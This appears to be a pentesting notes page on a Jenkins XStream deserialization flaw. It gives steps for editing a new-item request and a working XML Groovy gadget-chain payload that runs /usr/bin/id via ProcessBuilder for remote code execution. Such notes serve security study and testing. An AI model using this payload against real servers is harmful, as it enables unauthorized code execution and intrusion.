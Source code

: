 # Xstream Jenkins

## Groovy - Xstream Jenkins

In this example, jenkins \(v1.64\) is using third party libraries that include Gadget.

When creating a new items, it is possible to inject a Groovy payload which can lead to RCE.

#### Original request

![](../../../../.gitbook/assets/image%20%28150%29.png)

#### Edit the request

* change the name
* change content type to text/xml
* inject the payload

#### payload

```csharp
<map>
  <entry>
    <groovy.util.Expando>
      <expandoProperties>
        <entry>
          <string>hashCode</string>
          <org.codehaus.groovy.runtime.MethodClosure>
            <delegate class="groovy.util.Expando"/>
            <owner class="java.lang.ProcessBuilder">
              <command>
                <string>/usr/bin/id</string>
              </command>
            </owner>
            <method>start</method>
          </org.codehaus.groovy.runtime.MethodClosure>
        </entry>
      </expandoProperties>
    </groovy.util.Expando>
    <int>1</int>
  </entry>
</map>
```

Modified request

![](../../../../.gitbook/assets/image%20%28314%29.png)

Response

![](../../../../.gitbook/assets/image%20%28276%29.png)

### Resource

{% embed url="https://www.contrastsecurity.com/security-influencers/serialization-must-die-act-2-xstream" %}





